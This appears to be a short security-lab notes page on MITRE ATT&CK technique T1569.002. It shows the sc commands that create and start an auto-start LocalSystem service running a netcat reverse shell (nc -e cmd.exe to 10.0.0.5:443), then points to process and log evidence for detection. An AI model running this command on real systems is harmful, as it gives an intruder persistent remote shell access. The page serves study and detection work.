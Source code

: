 # Service Execution

## Execution

Creating an evil service with a netcat reverse shell:

```
C:\> sc create evilsvc binpath= "c:\tools\nc 10.0.0.5 443 -e cmd.exe" start= "auto" obj= "LocalSystem" password= ""
[SC] CreateService SUCCESS
C:\> sc start evilsvc
```

## Observations

The reverse shell lives under services.exe as expected:

![](../.gitbook/assets/services-nc.png)

Windows security, application, Service Control Manager and sysmon logs provide some juicy details:

![](../.gitbook/assets/services-logs.png)

## Reference

{% embed url="https://attack.mitre.org/techniques/T1569/002/" %}
